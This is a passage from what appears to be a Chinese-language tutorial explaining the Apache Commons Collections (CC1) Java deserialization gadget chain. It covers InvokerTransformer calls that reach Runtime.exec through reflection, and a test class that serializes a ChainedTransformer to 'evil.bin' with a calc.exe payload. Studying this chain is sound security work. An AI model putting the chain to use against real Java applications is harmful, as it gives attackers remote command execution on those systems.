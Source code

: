 `new Class[0]` 在这里是占位符号，由于getRuntime函数不需要传入参数所以这里改为null也可以

为什么占位符是 new Class[0] 呢？ 因为这里是通过getMethod来获取getRuntime方法的，所以我们这里需要满足getMethod传入的参数类型要求。

#### Invoker2

```java
new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] })
```

由于传入的是Method对象，所以这里getClass获取`java.lang.reflect.Method`（当前对象的类），利用反射获取Method类中的invoke方法，然后利用获取到的invoke方法执行前面获取到的getRuntime静态方法，从而返回Runtime对象

#### Invoker3

```java
new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
```

Runtime实例作为输入，getClass获取到Runtime类（当前对象所在的类），然后利用反射获取Runtime类中的exec方法，最后利用invoke调用，此时invoke传入的input为Runtime对象，iArgs为我们要执行的命令

#### 关于反射

需要注意的是反射问题，当我们利用如下代码：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.FileNotFoundException;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.InvocationTargetException;

public class cc1_test {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform(111);
        
        FileOutputStream fileOutputStream = new FileOutputStream("evil.bin");
        ObjectOutputStream outputStream = new ObjectOutputStream(fileOutputStream);
        outputStream.writeObject(chainedTransformer);

        Object obj = Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"));
        chainedTransformer.transform(obj);
    }
}
```

